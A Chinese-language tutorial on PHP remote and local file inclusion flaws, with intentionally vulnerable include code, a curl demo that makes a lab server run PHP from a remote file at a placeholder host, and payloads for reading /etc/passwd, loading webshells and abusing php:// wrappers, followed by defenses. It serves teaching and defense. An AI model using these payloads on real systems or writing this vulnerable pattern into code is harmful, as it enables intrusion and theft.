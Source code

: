 ```yaml
---
title: "文件包含漏洞"
tags: [rfi, lfi, "代码注入"]
---
```


远程文件包含攻击Remote File Include，它也属于是`代码注入`的一种，其原理就是注入一段用户能控制的脚本或代码，并让服务端执行。与其对应的是本地文件包含（Local File Inclusion，LFI）。

文件包含漏洞可能出现在JSP、PHP、ASP等语言中，原理都是一样的。它们都是通过`PHP`的包含函数即：`require(),require_once(),include()和include_once()`来使用。

一般情况下，用户通过包含函数将具有特定功能的函数或类包含到当前脚本中，是没有什么问题的。但是有时候，为了方便，需要动态的包含文件，这就会留下一些攻击漏洞。

# 实例
通常情况下，LFI攻击威胁不大，因为本地服务器上的文件是比较确定的，攻击者想要上传带有攻击性代码的文件也不是件容易的事。RFI攻击才是我们需要防范的事。那么，RFI攻击是如何实现的呢？

首先，提供一个存在RFI漏洞的代码示例（index.php）：

```php
<?php  
// 存在RFI漏洞的代码片段  
  
$file = $_GET['file'];  
include $file;  
  
?>  
```
脚本中使用了利用`GET`方法来动态包含文件，例如：在`index.php`同级目录下存在`include.php`文件，我们就可以通过访问类似URL`127.0.0.1/lab/index.php?file=include.php`来包含`include.php`文件，随后，服务器将解析`include.php`脚本，将产生的HTML代码传送给浏览器执行。

目前看来，还没出现什么安全问题，因为还仅仅只是包含本地文件。如果是包含远程文件，问题就来了，因为攻击者是可以任意编码远程文件的。

需要说明的是，进行RFI攻击需要同时具备三个条件（被攻击机器）：
- allow_url_fopen = On    （默认开启）
- allow_url_include = On  （默认关闭）
- 被包含的变量前没有目录的限制

同时满足了这三个条件，就等于为攻击者打开了大门。为了清楚地理解，下面给出一个LFI攻击的实例。（说明：在本地搭建一个存在RFI漏洞的环境，通过包含一个远程主机上的文件来攻击这个本地主机）

第一步：设置`php.ini`文件，将`allow_url_fopen`和`allow_url_include`都开启，重启`Apache`。

第二步：创建存在RFI漏洞的脚本文件，如上面的`index.php`。

第三步：在远程主机上创建一个带有攻击性代码的文本文件`hack.txt`（Just test），注意这个文件不能被服务器解析，如不能为PHP脚本文件。因为只是演示，文本文件被执行就能满足演示效果了。`hack.txt`文件内容如下：
```
hahaha,You are hacked. <?php echo $_GET['a']; ?>  
```
将文本文件放在一个拥有登录权限的主机根目录下，文本文件在互联网上的位置为：`http://yourhost/hack.txt`。

第四步：将攻击文件的URL带入include，进行攻击，如下所示：

```
curl 127.0.0.1/lab/index.php?file=ttp://yourhost/hack.txt
hahaha,You are hacked.
```

可以看到，文本文件被执行。接着，我们使用其中的PHP代码，如下所示：
```sh
curl curl 127.0.0.1/lab/index.php?file=ttp://yourhost/hack.txt&a=helloworld
hahaha,You are hacked.helloworld
```

可以看到，文本文件中的PHP代码被成功执行，现在只是一个演示，但是已经能说明RFI攻击过程。如果攻击者在文件中放入了系统命令，后果将不堪设想。

# 攻防

上面提到，攻击文件不能是PHP文件，所以有些经验丰富的开发者会考虑将被包含文件的扩展名写死，如：

```php
<?php  
// 存在RFI漏洞的代码片段  
  
$file = $_GET['file'];  
include $file.'.php';  
  
?>  
```
这样，通过以上方法包含远程文件，系统就会警告找不到被包含文件，从而避免攻击。

这种方法确实能起到一定作用，但对那些有经验的攻击者来说，这不是问题。我们知道PHP引擎是有C来实现的，`C`中空字符就是字符串结束符，因此可以使用空字符将扩展名截断，实现`RFI`攻击。

理解了`RFI`攻击原理，防御也就简单了。在配置层面，保持PHP的默认设置，将`allow_url_include`关闭；在代码层面，如果一定要动态包含文件，最好明确规定包含哪些文件，进行白名单比对。同时，也可以在包含函数中加入目录限制。

# 利用方法
文件包含漏洞有很多利用方式：

**1、读取敏感文件**

如../../../../../etc/passwd来读取敏感文件。

**2、包含shell**

如有其他漏洞将shell写入目标服务器中，或者可以远程包含自己服务器的shell，就可以通过包含shell文件来通过目标服务器apache来执行shell，用来提权之类的操作。

**3、配合文件上传漏洞**

如果上传的木马文件所在的路径不可以通过外网访问，但是可以通过文件包含漏洞读取，那么就可以构造参数将该文件运行，就可以得到webshell。

**4、使用PHP封装协议读取文件和写入PHP文件**

读取文件，可以通过输入page参数值如下：php://filter/read=convert.base64-encode/resource=../../../../../var/www/html/upload/xxx.txt来读取并执行。

写入文件，可以通过传入page=php://input，然后post提交我们要输入的内容。

# 应对
1. 判断包含中的参数是否外部可控。

2. 限制被包含的文件只能在某一个文件夹内，特别是一定要禁止目录跳转字符，如：“../”。

3. 验证被包含的文件是否在白名单中。

4. 尽量不要使用变量，如要使用包含，直接规定好包含的文件名，如：“include(“head.php”)”。

5. 可以通过调用str_replace()函数实现相关敏感字符的过滤，一定程度上防御了远程文件包含。

6. 如非必要，不要打开远程文件包含。

# Reference
- [远程文件包含](https://phplaber.iteye.com/blog/1702044)

- [文件包含漏洞](http://uuzdaisuki.com/2018/04/26/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
